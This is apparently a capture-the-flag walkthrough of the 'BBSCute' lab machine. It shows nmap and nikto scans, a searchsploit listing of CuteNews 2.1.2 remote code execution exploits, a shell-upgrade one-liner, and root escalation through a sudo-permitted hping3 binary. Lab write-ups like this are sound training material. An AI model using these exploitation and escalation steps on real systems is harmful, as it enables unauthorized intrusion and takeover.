


### BBSCute

Difficulty: Easy

## Enumeration

### Nmap scan

```bash
$ nmap -sC -sV -oA nmap/initial 192.168.60.128
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-15 07:08 EDT
Nmap scan report for 192.168.60.128
Host is up (0.10s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 404 Not Found
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: UIDL USER PIPELINING LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) TOP STLS UTF8(USER)
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: UIDL USER PIPELINING LOGIN-DELAY(10) TOP UTF8(USER) IMPLEMENTATION(Courier Mail Server)
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.53 seconds

```

- On running Nikto, found `index.php` page
```bash
$ nikto -h http://192.168.60.128 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.60.128
+ Target Hostname:    192.168.60.128
+ Target Port:        80
+ Start Time:         2021-08-15 07:18:13 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
^L+ Cookie CUTENEWS_SESSION created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 29cd, size: 5af83f7e950ce, mtime: gzip
+ Multiple index files found: /index.php, /index.html
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS 
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ OSVDB-3233: /icons/README: Apache default file found.
```


- Found that its is running ``CuteNews` and found exploit on `exploit-db`

```bash
$ searchsploit CuteNews 2.1                                             130 ⨯
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Executi | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion      | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution        | php/webapps/48800.py
                                        | php/webapps/48800.py
```

- Remote code execution exploit.
- change the `URL` and run the exploit

__Result__



python3 -c 'import ptty;pty.spawn("/bin/sh")';

## Escalation


- Found `hping3` which can be run as root by our user

```bash
www-data@cute:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
```
- Execution

```bash
www-data@cute:/$ /usr/sbin/hping3 
/usr/sbin/hping3 
hping3> id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

```
- Now the effective userid is root (`euid`)


<br></br><br></br><br></br><br></br><br></br><br>